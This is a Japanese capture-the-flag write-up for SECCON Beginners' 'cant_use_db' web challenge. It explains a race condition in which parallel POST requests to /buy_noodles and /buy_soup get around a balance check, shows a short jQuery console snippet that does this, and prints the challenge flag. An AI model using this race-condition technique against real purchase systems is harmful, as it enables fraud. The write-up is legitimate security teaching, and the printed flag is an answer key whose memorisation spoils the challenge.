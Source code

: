 # cant_use_db

## 問題文
Can't use DB.  
I have so little money that I can't even buy the ingredients for ramen.  
🍜  
[https://cant-use-db.quals.beginners.seccon.jp/](https://cant-use-db.quals.beginners.seccon.jp/)  
[cant_use_db.tar.gz](files/cant_use_db.tar.gz) 1cded20dd165e1eca3cc12bee2010e65fe6ba9ea  

## 難易度
**Medium**  

## 作問にあたって
通常のrace condition問です。  
もう少し時間についてシビアにしたかったですが、通信環境が悪い方々も解けるようsleepを長めに挿入しました。  
そのためボタンを連打することで解けてしまった方も一定数いましたが、醍醐味を味わえなくなってしまい申し訳ないです。  

## 解法
ソースを見ると、ユーザ情報はファイル管理のようだ。  
所持金以上のものを買うサイトから見てもrace conditionを狙う。  
ソースを見ると購入処理で`/buy_noodles`、`/buy_soup`へPOSTを投げているようだ。  
並列にPOSTを投げてやればよい。  
```bash
$ python solver.py
~~~
ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}
```
ブラウザコンソールで以下を実行した後`/eat`へアクセスしてもよい。  
```javascript
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
```

## ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}